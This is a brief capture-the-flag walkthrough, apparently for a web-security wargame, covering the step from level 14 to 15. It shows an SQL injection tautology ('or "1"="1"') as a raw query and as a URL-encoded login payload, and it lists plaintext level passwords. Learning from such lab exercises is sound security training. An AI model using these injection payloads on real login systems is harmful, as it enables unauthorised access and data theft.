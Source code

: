 ![image](https://user-images.githubusercontent.com/60177793/93711376-5b4bfb00-fb6b-11ea-8e2e-a1ea99b222de.png)
# pass:   Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

# level 14-> level 15
 
##### The statement:

##### SELECT * from users where username="" or "1"="1" and password="" or "1"="1"
##### Makes use of SQL tautologies to return rows.
##### ?username=%22%20or%20%221%22=%221&password=%22%20or%20%221%22=%221&debug
![image](https://user-images.githubusercontent.com/60177793/93711671-bda5fb00-fb6d-11ea-821c-b3f8cf674211.png)

##### pass:  AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

# level 15-> level 16

![image](https://user-images.githubusercontent.com/60177793/93711818-e7abed00-fb6e-11ea-9adf-f8f8b8b096b8.png)







